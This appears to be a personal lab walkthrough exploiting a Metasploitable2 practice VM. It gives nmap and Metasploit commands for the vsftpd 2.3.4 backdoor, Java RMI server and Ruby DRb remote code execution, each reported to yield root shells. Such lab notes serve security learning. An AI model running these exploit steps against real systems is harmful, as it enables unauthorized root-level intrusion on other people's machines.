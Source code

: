 ## <span class="ez-toc-section" id="(WARNING_ongoing_and_many_outright_spoilers!)"></span>(WARNING: ongoing and many outright spoilers!) <span class="ez-toc-section-end"></span>

_192.168.5.88 is the example Metasploitable2 target:_

#### <span class="ez-toc-section" id="VSFTPD"></span>VSFTPD:<span class="ez-toc-section-end"></span>

  * Used &#8216;nmap &#8211;script ftp-vsftpd-backdoor -p 21 192.168.5.88&#8217; to confirm
      * Used msfconsole:
          * &#8216;use exploit/unix/ftp/vsftpd\_234\_backdoor&#8217;
          * &#8216;set RHOSTS 192.168.5.88&#8217;
          * &#8216;exploit&#8217;
          * …got shell as root

#### <span class="ez-toc-section" id="GNU_Classpath_RMI_Registry"></span>GNU Classpath RMI Registry:<span class="ez-toc-section-end"></span>

  * Used msfconsole:
      * &#8216;use exploit/multi/misc/java\_rmi\_server&#8217;
      * &#8216;set RHOSTS 192.168.5.88&#8217;
      * &#8216;set RPORT 1099&#8217;
      * &#8216;set TARGET 0&#8217;
      * &#8216;run&#8217;
      * …got meterpreter shell as root

#### <span class="ez-toc-section" id="Ruby_DRb_RMI"></span>Ruby DRb RMI<span class="ez-toc-section-end"></span>

  * Used msfconsole:
      * &#8216;use exploit/linux/misc/drb\_remote\_codeexec&#8217;
      * &#8216;set URI druby://192.168.5.88:8787&#8217;
      * &#8216;run&#8217;
      * …got shell as root

#### To be continued...

[***...Get back***](../it-security.html)
